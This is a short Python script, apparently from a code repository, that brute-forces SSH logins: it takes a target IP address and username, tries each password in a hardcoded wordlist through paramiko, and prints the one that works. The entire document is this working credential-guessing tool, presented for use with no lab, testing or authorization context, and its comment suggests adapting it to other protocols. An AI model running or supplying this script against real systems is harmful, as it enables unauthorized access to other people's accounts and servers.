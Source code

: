 # -Brute-Force-Password-Cracking-Script
#The script takes a list of possible passwords (wordlist) and attempts to "guess" the correct password for a target account. This example demonstrates a brute-force method to crack an SSH login (which can be replaced with other protocols).
import paramiko

def ssh_bruteforce(target_ip, username, password_list):
    for password in password_list:
        try:
            # Create an SSH client
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(target_ip, username=username, password=password)
            print(f"Password found: {password}")
            ssh.close()
            break
        except paramiko.AuthenticationException:
            print(f"Failed attempt with password: {password}")
            continue

# Main Program
if __name__ == "__main__":
    target_ip = input("Enter target IP address: ")
    username = input("Enter SSH username: ")
    password_list = ["password123", "admin", "1234", "letmein"]  # Sample password list
    ssh_bruteforce(target_ip, username, password_list)
